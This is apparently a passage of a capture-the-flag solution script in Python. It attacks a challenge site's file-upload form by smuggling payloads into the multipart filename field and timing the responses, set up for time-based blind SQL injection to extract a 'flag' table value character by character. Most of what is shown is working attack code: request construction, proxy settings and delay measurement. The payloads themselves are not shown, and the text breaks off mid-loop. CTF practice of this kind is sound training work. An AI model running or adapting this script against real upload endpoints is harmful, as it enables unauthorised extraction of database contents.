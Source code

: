 ```py
COOKIE = {
    "PHPSESSID": "session_cookie"
}
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

BOUNDARY = "----geckoformboundarybf8c245aafa74d7059582a26d17cb513"
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
    "Origin": "https://blind-trust.ascwg-challs.app",
    "Referer": "https://blind-trust.ascwg-challs.app/challenge.php?page=profile",
}

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$%^&*()-=+,.:;"  # Expanded for uppercase
png_data = bytes.fromhex(
    "89504E470D0A1A0A0000000D49484452000000D800000143080600000058F6C0D9"
    "000000017352474200AECE1CE90000000467414D410000B18F0BFC6105"
)

DELAY_THRESHOLD = 2
MAX_LEN = 50
TABLE = "flag"
COLUMN = "value"
CONCURRENT_LIMIT = 5
RETRY_ATTEMPTS = 3
BENCHMARK_ITERATIONS = 10000000
TIMEOUT = 20

async def check_payload(session, payload, semaphore):
    body = (
        f"--{BOUNDARY}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"{payload}\"\r\n"
        f"Content-Type: image/png\r\n\r\n"
    ).encode() + png_data + b"\r\n" + (
        f"--{BOUNDARY}\r\n"
        f"Content-Disposition: form-data; name=\"upload\"\r\n\r\n"
        f"Upload\r\n"
        f"--{BOUNDARY}--\r\n"
    ).encode()

    for attempt in range(RETRY_ATTEMPTS + 1):
        async with semaphore:
            start = time.time()
            try:
                async with session.post(
                    URL,
                    headers=HEADERS,
                    cookies=COOKIE,
                    data=body,
                    proxy=PROXIES["http"],
                    ssl=False,
                    timeout=TIMEOUT
                ):
                    elapsed = time.time() - start
                    logger.debug(f"Payload '{payload[:50]}...': {elapsed:.2f}s")
```